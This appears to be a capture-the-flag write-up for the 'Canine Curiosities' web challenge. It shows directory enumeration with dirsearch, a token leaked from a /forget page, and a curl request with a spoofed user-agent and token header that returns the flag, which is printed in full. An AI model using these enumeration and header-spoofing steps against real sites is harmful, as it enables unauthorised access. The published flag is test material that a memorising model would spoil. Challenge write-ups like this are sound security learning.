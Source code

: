 # Canine Curiosities
- Used dirsearch on url: https://canine-curiosities.vercel.app to find [url/app.js](https://canine-curiosities.vercel.app/app.js)  .

- Found the token from [url/forget](https://canine-curiosities.vercel.app/forget) and then used 'cux' as user-agent to retrieve flag from [url/fact](https://canine-curiosities.vercel.app/fact) .

- Used the following command in terminal :
    ```
  $ curl -H "user-agent:cux" -H "token:fec62644-6db3-11ee-a34a-505bc2eeff4f" https://canine-curiosities.vercel.app/fact
    ```
- Got the following result :
    ```
    {"fact":"cruXipher{m0n15h4_f0R_pR0m_qV33n}"}
    ```

## Flag
```
cruXipher{m0n15h4_f0R_pR0m_qV33n}
```
